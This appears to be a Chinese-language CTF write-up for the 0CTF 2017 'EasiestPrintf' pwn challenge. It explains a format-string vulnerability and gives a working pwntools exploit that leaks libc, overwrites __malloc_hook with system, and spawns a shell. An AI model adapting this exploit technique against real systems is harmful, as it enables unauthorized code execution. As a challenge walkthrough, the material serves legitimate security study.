 ```yaml
---
title: 0CTF 2017 Easiestprintf
date: 2018-04-23 12:21:45
tags: pwn
layout: post
---
```

0CTF 2017 Easiestprintf
<!--more-->

# 0ctf Pwn Easyprintf
[题目以及exploit][1]

## 0x01 分析
除了PIE没开其他都开了
比较明显的printf格式化字符串漏洞
但是printf后面紧跟着exit（）
如果要hajack exit的got 会因为FULL RELRO而不能写
如果要改返回地址发现前面随机了站地址
then.. 我去看了一下writeup
发现了新姿势
通过[__malloc_hook][2] 或者 [__free_hook][3] 来getshell

## 0x02 利用
思路：
0.利用printf输出长度超过65536来使其调用__malloc_hook
1.在这之前将__malloc_hook的got改写成system
2.在这之前将参数改写为sh的地址sh可以写进bss 因为参数是长度(有细微差距 可以gdb调试 然后改成正确的 __malloc_hook是malloc()的第一个call)
3.检查payload中是否有0x0a

## 0x03 Exploit
```python
from pwn import *
#context.log_level="debug"

def exp():
	p=process("./EasiestPrintf")
	libc=ELF("/lib/i386-linux-gnu/libc.so.6")
	p.readuntil("read:\n")
	p.sendline("134520796")
	data=p.readline()
	data=int(data[:-1],16)
	libc.address=data-libc.symbols['puts']
	sh=libc.search("/bin/sh").next()
	p.readuntil("Bye\n")
	writes = {
		0x0804a100+0x4c:u32("/bin"),
		0x804a104+0x4c:u32("/sh;"),
	        libc.symbols['__malloc_hook']:libc.symbols['system']}
	width = 0x804a100+0x4c-0x20
	sh=libc.search("/bin/sh").next()
	#this sh is toooooo large and printf will not malloc such large chunk#
	gdb.attach(p,'''b * 0x804881c''')
	payload = fmtstr_payload( offset = 7,writes = writes,numbwritten = 0,write_size = 'short') + '%{}c'.format(width)
	p.sendline(payload)
	p.interactive()
	p.close()

exp()
```
## 0x04 总结
1.新姿势 fmtstr中利用 __malloc_hook 和 __free_hook 
2.如果直接用libc中的sh发现需要malloc的chunk过大导致前面某些检查出现问题不会跑malloc
3.如果是2.23的libc,one_gadget并没有用
4.在printf后面直接是exit又是fullrelro所以mallochook是个好选择




  [1]: https://github.com/n132/banana/tree/master/Pwn/4-22
  [2]: https://blog.betamao.me/2018/03/29/0ctf-2017-easiestprintf-150/#more
  [3]: https://poning.me/2017/03/23/EasiestPrintf/